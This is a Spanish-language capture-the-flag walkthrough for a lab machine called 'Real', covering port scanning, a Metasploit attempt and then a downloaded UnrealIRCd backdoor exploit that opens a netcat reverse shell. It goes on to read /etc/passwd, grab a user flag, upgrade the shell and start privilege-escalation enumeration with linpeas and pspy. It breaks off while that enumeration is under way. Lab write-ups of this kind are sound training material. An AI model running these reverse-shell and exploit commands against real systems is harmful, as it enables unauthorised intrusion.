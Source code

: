 #Reconocimiento
#Puerto80
#puerto6667
#reverseshell
#reverseshellpython
#escaladaPrivilegios

## reconocimiento en la red

![[Reconocimiento VulnixReal.png]]

IP Máquina  target: 192.168.1.140
## NMAP

![[Vulnix real nmap discover.png]]
Obtenemos que el epuerto 80 y puerto 22 esán abiertos
Puerto 80 es el puerto para servicio web
Puerto 22 es el puerto de SSH
Puerto 6667  --irc
Puerto 6697  --irc-u
Puerto 8067  --infi-async

Vemos la web que encontramos:

## revision puerto 80


![[Pasted image 20240306235939.png]]
Web es la web de apache 2 por defecto
Hacemos Gobuster para intentar encontrar  diferentes rutas de la web (por si existe algo fuera del index)


![[VulnixReal goobuster.png]]
Pero no encontramos nada
podemos seguir intentando fuzz y gobuster subdomains

De la web no sacamos nada
Pasamos al siguiente puerto 6667

 instantamos explotarlo con metaexploit:
 comandos 
 msfconsole
![[vulnix real msfconsole.png]]

y buscando un poco por internet vemos que es vulnerable con metaexploit: 
https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/
vamos a intentar explotarlo segun lo encontrado

![[searchUnreal vulnix real.png]]


Use 2
![[use2 vulnix real.png]]

Options
![[vulnix real options.png]]

set rhost = IP:
![[set rhjost vulnix real.png]]

set rport  6667

![[set report 6667 vulnix real.png]]

use exploit/unix/irc/unreal_ircd_3281_backdoor
![[vulnix real use exploit irc unreal.png]]

show payloads:
![[show payloads vulnix real.png]]

set payload reverse:
![[set pauload reverse vulnix real.png]]

set lhosts = local IP:
![[setlhost vulnix real.png]]


exploit
![[vulnix real exploit.png]]
but No sessions was created.

Buscando un poco por internet encontramos el repo de github

https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor

descargamos el exploit .py
wget https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor/blob/master/exploit.py

![[Vulnix - Real - Descargar exploit del repo de github.png]]

Editamos el script en python para poner nuestra IP y el puerto con el que vamos a hacer el reverse proxy:
![[real vulnix script original.png]]


modificamos segun nuestras preferencias:
![[config parameter vulnix real.png]]

en este caso nuestra IP local y el puerto por el cual nos vamos a poner a la escucha que va a ser el 6666

ahora nos ponemos a la escucha en la terminal con  el comando:
nc -lvp 6666

![[vulnix real reverse shell en escucha.png]]

y una vez estamos escuchando por el puerto correcto lo que hacemos es ejecutar el scrip de python para conectar por el puerto 6667 y lanzar una reverse shell sobre nuestra IP por el puerto 6666
python3 exploit.py 192.168.1.140 6667 -payload netcat

![[vulnix - real send exploit.png]]

y en la terminal que estamos a la escucha por el puerto 6666 recibimos la conexión:

![[vulnix - real connection reverse proxy.png]]

Entramos con el usuario serve
![[Vulnix - Real - Acceso con user serve vulnix real.png]]


intentamos movernos hasta home/serve  para ver si está la flag del usuario
y conseguimos la primera flag del usuario:
![[vulnix real - user server flag.png]]
user server flag: 3b7fb7c1c8737a5c67dc513657e3efb3


Comando id
![[vulknix real -comando id para ver el usuario.png]]
Con el comando id vemos que el usuario es server 

vemos el passwd en /etc/passwd:
![[vulnix- real -passwd.png]]

server:x:1000:1000:server,,,:/home/server:/bin/bash
aquí vemos que el id de usuario es 1000 e identificador de grupo es 1000 --> Todos los que comienzan con 1000 en LINUX son usuarios

ahora vamos a hacer tratamiento de la TTI:


Tratamiento de la TTI
script /dev/null -c bash
CTRL + Z
stti raw -echo ; fg
reset
xterm
export TERM = xterm-256color
export SHELL = bash
stty -a

Descargamos linpeas:

https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS/README.md
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh

le damos permisos de ejecucion al fichero .sh
chmod +x linpeas.sh
ejecutamos linpeas
./linpeas.sh

![[vulnix - real linpeas.png]]

Pero no encontramos nada interesante

Usamos la herramient pspy:
https://github.com/DominicBreuker/pspy
url de descarga:
https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64

le damos permisos de ejecucion
chmod +x pspy64

lo ejecutamos
./pspy64
![[vulnyx - real pspy64.png]]

nos encontramos un fichero que se ejecuta como admisnitrador en /opt/Task
vemos ese fichero:
cat /opt/Task

